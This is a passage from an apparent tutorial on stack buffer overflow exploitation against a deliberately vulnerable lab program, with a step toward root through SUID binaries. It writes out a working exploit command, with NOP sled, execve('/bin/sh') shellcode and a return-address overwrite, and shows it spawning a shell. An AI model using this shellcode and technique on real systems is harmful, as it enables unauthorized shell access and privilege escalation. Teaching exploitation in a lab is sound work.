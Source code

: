 A quick calculation gives 0x90 - 0x60 = 0x30 (the first number is the last byte of the buffer address that we got from gdb, and the second number is 96 converted to hex) and we are ready to exploit again:

```bash
$ env - PWD=$PWD SHLVL=0 /path/to/bo_vuln1 `python -c 'print 30 * "\x90" + "\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05" + 17 * "a" + 8 * "b" + "\x38\xec\xff\xff\xff\x7f"'`
sh-4.4$
```

> We can use `$PWD/program` instead of `/path/to/program`.

Finally a success!

To summarize: make sure to launch gdb and the vulnerable programs as described above, and take the argument length into account to find the proper buffer address in the terminal.

### Getting a root shell

The vulnerable program above spawned a shell when we exploited it, but the shell did not get us any special permissions. That's to be expected, as the vulnerable program ran with normal user privileges.

There are multiple ways to go from normal user privilege to super user privilege, and we'll look more at this later, but for now we'll focus on SUID binaries.

#### SUID binaries

When root is the owner of a file, and the SUID/setuid bit is set, the program runs (when executed by a normal user) with the highest privlege.

To turn `bo_vuln1` into a SUID root binary, we set root as the owner, and set the SUID bit:

```bash
$ sudo chown root bo_vuln1
$ sudo chmod u+s  bo_vuln1
$ ls -l bo_vuln1
-rwsrwxr-x. 1 root cas 19552 Jul 22 17:19 bo_vuln1
```

When we execute the above program, we run it with using our *real* user ID (the user we are logged in as), but the program runs with root as its *effective* user ID.

> The SUID bit makes a program run with the *owner's* privileges.

#### Prevent privilege drop in bash

Running the same exploit as earlier, on the now SUID root `bo_vuln1`, we still get a shell with no special privileges:

```bash
$ env - PWD=$PWD SHLVL=0 $PWD/bo_vuln1 `python -c 'print 30 * "\x90" + "\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05" + 17 * "a" + 8 * "b" + "\x38\xec\xff\xff\xff\x7f"'`
sh-4.4$
```
